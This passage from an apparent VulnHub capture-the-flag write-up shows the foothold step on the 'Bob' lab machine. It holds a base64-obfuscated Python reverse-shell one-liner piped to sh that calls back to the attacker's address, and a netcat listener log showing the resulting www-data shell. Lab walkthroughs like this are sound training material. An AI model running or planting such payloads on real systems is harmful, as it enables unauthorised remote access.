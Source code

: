 		![](images/Pasted%20image%2020220122155311.png)
	2. Final Payload
		```
		echo -n cHl0aG9uIC1jICdhPV9faW1wb3J0X187cz1hKCJzb2NrZXQiKS5zb2NrZXQ7bz1hKCJvcyIpLmR1cDI7cD1hKCJwdHkiKS5zcGF3bjtjPXMoKTtjLmNvbm5lY3QoKCIxOTIuMTY4LjIzNi40Iiw0NDQ0KSk7Zj1jLmZpbGVubztvKGYoKSwwKTtvKGYoKSwxKTtvKGYoKSwyKTtwKCIvYmluL3NoIikn | base64 -d | sh
		```
	3. Obtain www-data shell
		```
		┌──(root💀kali)-[~/vulnHub/Bob1.0.1/192.168.236.5/loot/http]
		└─# nc -nvlp 4444
		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 192.168.236.5.
		Ncat: Connection from 192.168.236.5:57636.
		$ whoami
		whoami
		www-data
		```
		![](images/Pasted%20image%2020220122155513.png)
# Privilege Escalation